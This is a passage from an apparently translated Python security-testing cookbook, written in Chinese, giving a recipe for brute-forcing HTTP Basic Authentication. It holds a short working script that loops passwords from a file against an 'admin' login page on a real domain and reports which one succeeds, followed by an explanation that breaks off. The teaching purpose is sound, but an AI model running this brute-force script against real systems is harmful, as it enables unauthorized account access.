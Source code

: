配方的输出显示在以下屏幕截图中：

![How it works…](img/B04044_05_03.jpg)

# 通过授权头强制登录

许多网站使用 HTTP 基本身份验证来限制对内容的访问。这在路由器等嵌入式设备中尤其普遍。Python`requests`库内置了对基本身份验证的支持，为创建身份验证暴力脚本提供了一种简单的方法。

## 准备好了吗

在创建此配方之前，您需要一个密码列表来尝试进行身份验证。创建一个名为`passwords.txt`的本地文本文件，将每个密码放在新行上。查看[第 2 章](2.html "Chapter 2. Enumeration")、*枚举*中的暴力强制密码，获取在线资源中的密码列表。此外，请花一些时间查看目标服务器，因为您需要知道它如何响应失败的登录请求，以便我们能够区分暴力何时起作用。

## 怎么做…

以下代码将尝试通过基本身份验证强行进入网站：

```py
import requests
from requests.auth import HTTPBasicAuth

with open('passwords.txt') as passwords:
    for password in passwords.readlines():
        password = password.strip()
        req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
        if req.status_code == 401:
            print password, 'failed.'
        elif req.status_code == 200:
            print 'Login successful, password:', password
            break
        else:
            print 'Error occurred with', password
            break
```

## 它是如何工作的…

此脚本的第一部分逐行读取密码列表。然后向登录页面发送 HTTP`GET`请求：

```py
req = requests.get('http://packtpub.com/admin_login.html', auth=HTTPBasicAuth('admin', password))
```

此请求有一个额外的`auth`参数，其中包含用户名`admin`和从`passwords.txt`文件读取的`password`。发送带有基本`Authorization`头的 HTTP 请求时，原始数据如下所示：
